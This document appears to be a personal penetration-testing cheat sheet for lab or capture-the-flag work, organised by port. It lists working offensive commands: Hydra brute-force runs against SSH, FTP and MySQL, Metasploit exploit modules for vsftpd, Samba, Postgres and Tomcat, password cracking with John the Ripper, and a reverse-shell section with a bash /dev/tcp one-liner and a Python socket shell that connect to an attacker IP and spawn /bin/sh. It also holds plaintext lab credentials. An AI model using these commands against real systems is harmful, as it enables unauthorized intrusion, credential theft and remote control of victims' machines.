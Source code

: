 #### Nmap

 nmap -Pn -sV Target
 
 nmap -sV -sC 10.10.91.172 -Pn

 nmap -sC -sT Target   (TCP SCAN)

 nmap -A Target (Aggressive scan)

 nmap -sV Tagert -oX scan.xml (For xml)

 nmap -sV Tagert -oN scan (Normal/txt format)

 
 ###### Open Nmap XML file
 
Paste the below code and save it as script.vba. Then open it, your internet explorer will open.

 CreateObject("InternetExplorer.Application").Visible=true

#### Kali Commands
sudo -l (To check all the permissions provided to the current user after using sudo command)
 
curl -X POST http://165.227.106.113/post.php -d "username=admin&password=71urlkufpsdnlkadsf"

curl -H "User-Agent: Sup3rS3cr3tAg3nt" http://165.227.106.113/header.php

curl -H "User-Agent: Sup3rS3cr3tAg3nt" -H "Referer:awesomesauce.com" http://165.227.106.113/header.php

 #### Searchsploit

 searchsploit service version
 
 searchsploit -m number_of_the_exploit(like 42233)
 
 Go to the directory where it is downloaded it would be the same directory.

 open it, cat 42233.txt and read it.

 


### Port 21
#### Hydra

sudo hydra -L user.txt -P pass.txt target ftp   ----> FTP

#### Vsftpd Exploit

In msfconsole

search vsftpd version

use exploit/unix/ftp/
show options
set RHOSTS ip
exploit

### Port 22

#### Hydra

hydra -L user.txt -P pass.txt 192.168.1.103 ssh

#### SSH BFA
use **auxiliary/scanner/ssh/ssh_login**
show options

set RHOSTS ip

set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt

or 

set USER_FILE /usr/share/user.txt
set PASS_FILE /usr/share/pass.txt

or 

**set STOP_ON_SUCCESS true**

set VERBOSE true

exploit

If sessions opened type
sessions
sessions 1 or 2 or whatever the shell opened is or sessions -u 1 or 2
shell (For better view type shell, it will look like linux)

Connect: ssh username@ip

### Port 139 & 445 (Samba)

use **exploit/multi/samba/usermap_script**

show options

set RHOSTS ip

exploit

id , uname -a, python -c 'import pty:pty.spawn("/bin/bash")'

#### Connect to SMB (View Shares)

smbclient -L \\10.10.101.175 or smbclient -L 10.10.101.175

smbclient //10.10.101.175/anonymous

ls

get log.txt

smbclient //10.10.61.86/milesdyson -U milesdyson  (Login to smb)

#### John The Ripper command

john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-sha1 hash

#### Reverse Shell
```
nc -lvp 8080

bash -c 'bash -i >& /dev/tcp/10.10.210.158/8080 0>&1' (10.10.210.158 is attacker's ip and this line is executed in vuln. website)
```
```
nc -lvp 1234

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“10.10.207.168”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]); (Python code for reverse shell)
```

#### Hydra Commands

hydra -l username -P passwordlist.txt ssh://target_ip

hydra -L userlist.txt -P passwordlist.txt ftp://target_ip

hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 10.10.137.76 ssh


### Base32 and 64 Decode

echo "KBQWY4DONAQHE53UOJ5CA2LXOQQEQSCBEBZHIZ3JPB2XQ4TQNF2CA5LEM4QHEYLKORUC4===" | base32 -d


### Port  5432 (Postgres)
```
search postgres
use **exploit/linux/postgres/postgres_payload**
set RHOSTS ip
set LHOST ip
run
sessions -u 1 or 2 or whichever
```
### Port 5900 (VNC)

use **auxiliary/scanner/vnc/vnc_login**
set RHOSTS
exploit

after getting password go to terminal

vncviewer vulnerable_ip

For authorized ssh keys after login:
cd root
ls -la
cd .ssh
ls -la
cat authorized_keys

### Port 8180 (Not default port) (Tomcat)

use exploit/multi/http/tomcat_mgr_upload

show options

set RHOSTS

set RPORT 8180

set HttpUsername tomcat

set HttpPassword tomcat

### Port 3389

xfreerdp /u:wade /p:parzival /v:10.10.167.18  (Connect using Linux)

### Port 3306

hydra -L usernames.txt -P passwords.txt 192.168.1.100 mysql

mysql -h example.com -u root -p

### Nessus

nessus ( command /bin/systemctl start nessusd.service, the go to https://localhost:8834/#/ and login, root, Root@123 in windows)

#### For Windows

Start

C:\Windows\system32>net start "Tenable Nessus"

Stop	

C:\Windows\system32>net stop "Tenable Nessus"
